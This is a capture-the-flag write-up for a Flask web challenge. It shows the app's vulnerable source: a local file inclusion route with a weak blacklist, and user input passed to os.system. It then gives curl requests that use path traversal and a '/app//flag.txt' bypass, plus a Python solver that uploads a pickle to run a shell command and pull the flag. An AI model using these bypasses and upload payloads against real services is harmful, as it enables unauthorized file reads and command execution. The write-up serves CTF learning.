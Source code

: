 ```python
            if not os.path.abspath(source).startswith(os.getcwd()):
                return render_template("result.html", message="Invalid source! File must be inside the challenge directory.")          
        os.system(command)
        return render_template("result.html", message="Bingo! The bomb has been sent to Davy Jones' locker!")
    except Exception as e:
        return render_template("result.html", message=f"Shiver me timbers! There be an error: {e}")


@app.route('/gallery', methods=['GET'])
def gallery():
    filename = request.args.get('file')
    if filename and ('/app/flag.txt' in filename or filename is '/app/app.py'):
        return render_template("result.html", message="You can't view that file, ye scurvy dog!")

    if filename:
        try:
            with open(filename, 'r') as f:
                content = f.read()
            return render_template("result.html", message=content)
        except Exception as e:
            return render_template("result.html", message=f"Error reading file: {e}")
    return render_template("gallery.html")

if __name__ == '__main__':
    app.run(debug=True, host='0.0.0.0', port=5000)
```

After reading the source code we can find that
- the command we supply in is being executed but there's a blacklist of the multiple commands.
- In `/gallery` route there's a LFI and a blacklist for reading the flag directly, or that was the intended path in the challenge to read only ``app.py`` with 
``curl http://98.66.180.82:1024/gallery?file=../app/app.py``
- until my teammate ``[EL_GASTRA](https://github.com/ghassen202)``  noticed that we can simply bypass the flag check by using
``curl http://98.66.180.82:1024/gallery?file=/app//flag.txt``
![[Pasted image 20250223173359.png]]

Going back to our direct solve method, we have an idea what the server is doing so we can craft the following solver.py

```python
import requests
import pickle
import re

# Define the upload URL
up_url = "http://98.66.180.82:1024/upload"
# Define the gallery URL 
gal_url="http://98.66.180.82:1024/gallery?file=/tmp/flag.txt"
# Specify the local file name to store the exploit payload
file_path= "exploit.pkl"
# Create a malicious pickle payload that copies the flag to a readable location
pickle.dump("cp flag.txt /tmp/", open(file_path, "wb"))
# Open the exploit file in binary mode and send it via POST request to upload
with open(file_path, "rb") as f:
    files = {"file": f}
    a = requests.post(up_url, files=files)
# Make a GET request to access the flag after execution
resp = requests.get(gal_url)
# Search for the flag pattern using regex
search = re.search(r"Securinets{.*}", resp.text)
#Print the extracted flag
```